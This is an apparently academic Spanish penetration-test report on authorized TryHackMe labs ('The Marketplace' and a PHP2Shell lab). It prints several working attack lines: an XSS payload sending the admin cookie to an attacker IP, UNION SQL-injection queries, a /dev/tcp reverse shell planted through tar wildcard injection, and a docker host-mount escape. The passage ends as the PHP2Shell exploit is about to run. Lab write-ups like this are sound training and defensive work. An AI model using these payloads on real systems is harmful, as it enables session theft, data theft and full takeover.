InnovaSec S.A.S. es una empresa ficticia de servicios digitales que opera una plataforma de comercio electrónico y aplicaciones web empresariales. Ante la detección de configuraciones inseguras y la divulgación de vulnerabilidades críticas en entornos PHP (octubre 2026), la dirección contrató a nuestra consultora para una evaluación técnica (Red Team), una investigación defensiva (Blue Team) y un análisis de gestión de riesgos basado en estándares.
El presente informe corresponde al Reto 1: The Marketplace, un escenario que simula una tienda en línea de la organización. Se documenta el reconocimiento, la explotación controlada, los hallazgos, su clasificación OWASP Top 10:2025, el análisis defensivo, la valoración de riesgos (MAGERIT/INCIBE simplificado), los controles ISO/IEC 27001:2022 y el plan de tratamiento.
Objetivo general: evaluar la postura de seguridad de la plataforma de comercio electrónico de InnovaSec S.A.S. mediante técnicas ofensivas y defensivas controladas, transformando los hallazgos técnicos en riesgos organizacionales con contramedidas basadas en estándares.
Objetivos específicos:Alcance: exclusivamente el laboratorio autorizado TryHackMe – The Marketplace
(https://tryhackme.com/room/marketplace). No se evaluaron sistemas reales ni de terceros; no se ejecutaron
ataques de denegación de servicio.
Metodología: enfoque por fases alineado con PTES/OWASP WSTG para la parte ofensiva y análisis de detección para la parte defensiva: (1) Reconocimiento y enumeración → (2) Identificación y explotación controlada → (3) Clasificación OWASP → (4) Análisis Blue Team → (5) Informe Red Team → (6) Análisis de riesgos → (7) Controles ISO 27001 → (8) Plan de tratamiento.
Datos del entorno: IP objetivo 10.64.178.136 (reasignada desde 10.64.185.69 tras un reinicio);
IP del atacante (VPN tun0) 192.168.144.28.
| Herramienta | Propósito | Justificación |
|---|---|---|
| Nmap | Escaneo de puertos y servicios | Identificar superficie de ataque (SSH, nginx, app Node.js) |
| Navegador + DevTools | Enumeración web, manipulación de cookies, pruebas XSS | Inspección del JWT y suplantación de sesión |
| Python http.server / netcat | Listener para exfiltración y shell reversa | Recibir la cookie del admin y la shell de michael |
| sqlmap | Detección de SQLi | Prueba automatizada (descartada por filtro 403) |
| Inyección UNION manual | Explotación de la SQLi | Volcado de la BD evitando el filtro |
| SSH | Acceso remoto como jake | Uso de credenciales obtenidas |
| tar / GTFOBins | Escalada de privilegios (wildcard injection) | Abuso de regla sudo sobre script con * |
| Docker | Escalada final a root | Abuso de pertenencia al grupo docker |
| OpenVPN / SSH (Reto 2) | Conexión al laboratorio y a la máquina objetivo | Acceso a la máquina TryHackMe para atacar el servicio local 127.0.0.1:8088 |
| exploit.py (PHP2Shell, Reto 2) | Cadena de fuga de memoria + RCE | Derrotar ASLR y ejecutar comandos como www-data (CVE-2026-109618/619) |
| Hydra / Gobuster (Reto 4) | Fuerza bruta de login y enumeración de rutas | Obtener credenciales de WordPress y descubrir el panel y archivos sensibles |
| John the Ripper (Reto 4) | Crackeo del hash MD5 del usuario robot | Recuperar la contraseña en texto plano para el movimiento lateral |
| grep / awk / sed / sort / uniq (Reto 3) | Análisis forense de access.log y error.log | Filtrar un error.log de 484 MB sin abrirlo en un editor |
| tshark / Wireshark (Reto 3) | Análisis de la captura de red | Localizar la reverse shell y reconstruir los comandos del atacante |
Resumen: se comprometió por completo la plataforma encadenando cinco debilidades, pasando de usuario anónimo a root: XSS almacenado (robo de sesión admin), SQL Injection (exfiltración de credenciales), credenciales en texto claro, configuración sudo insegura + tar wildcard injection, y pertenencia al grupo docker.
Verificación de conectividad con la máquina objetivo a través de la VPN:

Escaneo de puertos y servicios:
nmap -sC -sV -p- -T4 -oN nmap-marketplace.txt 10.64.178.136| Puerto | Servicio | Versión |
|---|---|---|
| 22/tcp | SSH | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 |
| 80/tcp | HTTP | nginx 1.19.2 |
| 32768/tcp | HTTP | Node.js (Express) — aplicación The Marketplace |
El robots.txt expone una entrada denegada (/admin) y en la portada se enumeran dos usuarios
publicadores: michael y jake.

Análisis de autenticación: la sesión se mantiene con una cookie token (JWT) que no tiene el flag
HttpOnly y cuyo payload expone en claro el campo "admin":
{"userId":4,"username":"test","admin":false,"iat":...}
/item/1): ruta REST basada en path.Hallazgo H-01a — XSS almacenado → robo de sesión del administrador. El campo descripción de un anuncio no sanitiza HTML/JS. La función "Report listing to admins" hace que el administrador (michael) revise el anuncio, ejecutando el script en su navegador.
Listener del atacante y payload tipo beacon (no redirige, para poder pulsar "Report"):
mkdir -p /tmp/xss && cd /tmp/xss && python3 -m http.server 8000<script>new Image().src='http://192.168.144.28:8000/?c='+document.cookie</script>Tras reportar el anuncio, el listener recibe la cookie del administrador (origen 10.64.178.136,
"admin":true, usuario michael):

Se reemplaza la cookie token por el JWT de michael (DevTools → Storage → Cookies) y se recarga: acceso como
administrador. En /admin ("User listing") se obtiene la primera flag y se enumeran los usuarios del sistema
(system, michael, jake, test).

token sin HttpOnly (DevTools) y panel de administración accesible.
Hallazgo H-01b — SQL Injection (UNION, numérica) en /admin?user=. Confirmación manual:
/admin?user=3-1 devuelve a michael (id 2) → el servidor evaluó 3-1=2 en SQL. Como sqlmap chocaba con
un filtro que respondía 403, se explotó manualmente con UNION (4 columnas; la columna 2 se refleja como nombre):

# Tablas
/admin?user=0 UNION SELECT 1,group_concat(table_name),3,4 FROM information_schema.tables WHERE table_schema=database()-- -
# Columnas de 'messages' (0x6d65737361676573 = 'messages')
/admin?user=0 UNION SELECT 1,group_concat(column_name),3,4 FROM information_schema.columns WHERE table_name=0x6d65737361676573-- -
# Volcado de mensajes
/admin?user=0 UNION SELECT 1,group_concat(id,0x3a,user_from,0x3a,user_to,0x3a,message_content,0x7c),3,4 FROM messages-- -
items, messages, users.
messages.Hallazgo H-01c — Credenciales en texto claro. El volcado revela un mensaje de system a jake con su
contraseña SSH: @b_ENXkGYUCAv3zJ.

Acceso como jake (FLAG 2):
ssh jake@10.64.178.136 # contraseña: @b_ENXkGYUCAv3zJ
id # uid=1000(jake) groups=1000(jake) -> NO está en docker
cat user.txt # FLAG 2

Hallazgo H-01d — sudo inseguro + tar wildcard injection (jake → michael).
sudo -l revela que jake puede ejecutar /opt/backups/backup.sh como michael sin contraseña.
El script ejecuta tar cf /opt/backups/backup.tar *: el comodín * es explotable (GTFOBins).

sudo -l: regla NOPASSWD sobre backup.sh; usuarios del sistema.

backup.sh: tar ... * vulnerable.mkdir -p /tmp/privesc && cd /tmp/privesc
echo 'bash -i >& /dev/tcp/192.168.144.28/4445 0>&1' > shell.sh
echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=bash shell.sh" # bash, no sh (dash falla con >&)
rm -f /opt/backups/backup.tar
sudo -u michael /opt/backups/backup.sh # dispara exec como michaelEn el listener (nc -lvnp 4445) se recibe una shell de michael, que pertenece al grupo docker
(groups=...,999(docker)).


Hallazgo H-01e — Grupo docker (michael → root, FLAG 3). Con la imagen alpine ya presente se monta el
disco del host y se lee la flag de root como usuario privilegiado del contenedor.
docker images
docker run -v /:/mnt --rm alpine cat /mnt/root/root.txt # FLAG 3

Finalización del laboratorio:

Responsable: Andrey David Morales Díaz. Laboratorio: TryHackMe – PHP2Shell
(https://tryhackme.com/room/cvephp2shell). Enfoque: vulnerabilidades recientes del entorno de ejecución PHP.
Resumen: el 21/10/2026 el proyecto PHP divulgó PHP2Shell, dos vulnerabilidades que, encadenadas, permiten a un
atacante no autenticado ejecutar comandos en casi cualquier servidor PHP con solo peticiones HTTP normales. El fallo vive en el
runtime PHP, por debajo del framework o CMS, y está presente desde PHP 5.4.0 (2012): catorce años de versiones a la vez. Se
explotó de forma controlada un servidor PHP 8.4.26 en el laboratorio, pasando de peticiones multipart a una
página que solo imprime OK hasta la ejecución de comandos como www-data y la lectura de la bandera, toda la
cadena en menos de diez segundos.
La feature session.upload_progress (habilitada por defecto) escribe el progreso de una subida en
$_SESSION mientras PHP aún lee el cuerpo multipart/form-data, antes de ejecutar el código de la
aplicación; se activa con un campo de formulario llamado PHP_SESSION_UPLOAD_PROGRESS. Ese momento previo a la ejecución
es el punto de apoyo: no necesita session_start(), ni login, ni lógica de aplicación; basta una URL que acepte POST.
Cuando una petición supera memory_limit, PHP hace un bailout (un longjmp a un punto de
recuperación) que salta la limpieza ordinaria. Si el agotamiento ocurre después de liberar un bloque pero antes de limpiar el
puntero que lo referencia, el bailout deja un puntero colgante (CWE-824, acceso a puntero no inicializado). Bajo
Apache prefork con mod_php, un worker atiende varias peticiones sin reiniciarse, así que ese puntero sobrevive a la
siguiente petición, que puede controlar qué se aloja en el espacio liberado. De ese único defecto salen las dos CVE.
| CVE | Tipo | Qué logra |
|---|---|---|
| CVE-2026-109618 | Divulgación de memoria | Lee el puntero colgante como una cadena de longitud inflada y la devuelve en una cabecera de respuesta: hasta ~67 KB de memoria del worker por petición (derrota ASLR). |
| CVE-2026-109619 | Ejecución remota de código | Reocupa la referencia con un HashTable forjado cuyo destructor apunta a system(): el motor ejecuta el comando del atacante. |
Tras conectar la VPN de TryHackMe (interfaz tun0) y comprobar conectividad con la máquina (10.66.159.207), se abrió
una sesión SSH como ubuntu y se identificó el servidor vulnerable, un contenedor que escucha en
127.0.0.1:8088.
ssh ubuntu@10.66.159.207
docker ps --format '{{.Names}} {{.Image}} {{.Status}}'
docker exec php2shell-target php -v
curl -s http://127.0.0.1:8088/index.php

php2shell-target (imagen php:8.4.26-apache), PHP 8.4.26 y la página que imprime OK.El servidor es PHP 8.4.26, una versión por debajo del parche 8.4.27, y la aplicación completa es una línea
(<?php echo "OK\n"; ?>): si el ataque funciona aquí, funciona contra el runtime, no contra la aplicación.
El exploit (~/php2shell-bypass-aslr-exp/exploit.py) ejecuta la cadena completa. Las etapas 1 y 2 son la fuga de
memoria (CVE-2026-109618): leen la base del heap y de libphp directamente de la cabecera de respuesta
Set-Cookie, lo que derrota ASLR. La etapa 3 (CVE-2026-109619) forja el destructor y ejecuta el comando como
www-data.
cd ~/php2shell-bypass-aslr-exp
